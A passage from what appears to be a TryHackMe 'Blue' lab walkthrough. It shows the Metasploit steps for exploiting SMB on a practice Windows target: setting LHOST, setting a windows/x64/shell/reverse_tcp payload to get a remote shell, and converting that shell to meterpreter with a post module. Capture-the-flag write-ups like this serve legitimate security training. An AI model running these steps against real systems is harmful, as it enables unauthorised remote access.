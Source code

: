**Note:** Ensure to change the LHOST value to your TryHackMe VPN IP Address. This can be found using "ip a show tun0" command and looking at the inet field

> RHOSTS

4. **Usually, it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

```
set payload windows/x64/shell/reverse_tcp
```

**With that done, run the exploit!**

> No answer required

![Executing SMB Exploit on Target](images/thm-blue/executing-exploit.png)

**Note:** When we run the exploit it might fail on the first try but it should be able to connect automatically on the second try. If the exploit runs successfully we should be in a shell session

![Remote Access to Target System Gained](images/thm-blue/remote-access-gained.png)

## Task 3: Escalation

1. **If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in Metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)**

> post/multi/manage/shell_to_meterpreter

![Meterpreter Options](images/thm-blue/meterpreter-options.png)
